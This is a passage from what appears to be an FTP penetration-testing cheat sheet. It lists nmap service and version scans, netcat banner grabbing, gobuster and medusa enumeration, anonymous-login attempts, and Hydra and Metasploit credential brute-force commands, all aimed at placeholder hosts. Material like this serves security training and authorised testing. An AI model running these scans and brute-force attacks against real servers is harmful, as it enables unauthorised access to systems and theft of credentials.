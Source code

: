 ### Programmatic Access
```python
from ftplib import FTP

ftp = FTP('host')
ftp.login(user='user', passwd='password')
```

## 🔍 Reconnaissance & Enumeration

### Service Detection
```bash
# Basic port scan
nmap -p 21 X.X.X.X

# Version detection
nmap -sV -p 21 X.X.X.X

# Banner grabbing
nc -nv X.X.X.X 21

# Advanced FTP scanning
nmap -p 21 --script ftp-* X.X.X.X
```

### Directory Enumeration
```bash
# Using gobuster
gobuster dir -u ftp://<target-ip> -w <wordlist-path>

# Using medusa
medusa -h <target-ip> -u user -P passwords.txt -M ftp
```

## ⚔️ Attack Vectors

### Anonymous Access
```bash
ftp X.X.X.X
Username: anonymous
Password: anything@example.com
```

### Credential Attacks
```bash
# Hydra brute force
hydra -L users.txt -P passes.txt ftp://X.X.X.X

# Metasploit
use auxiliary/scanner/ftp/ftp_login
set RHOSTS X.X.X.X
run
```
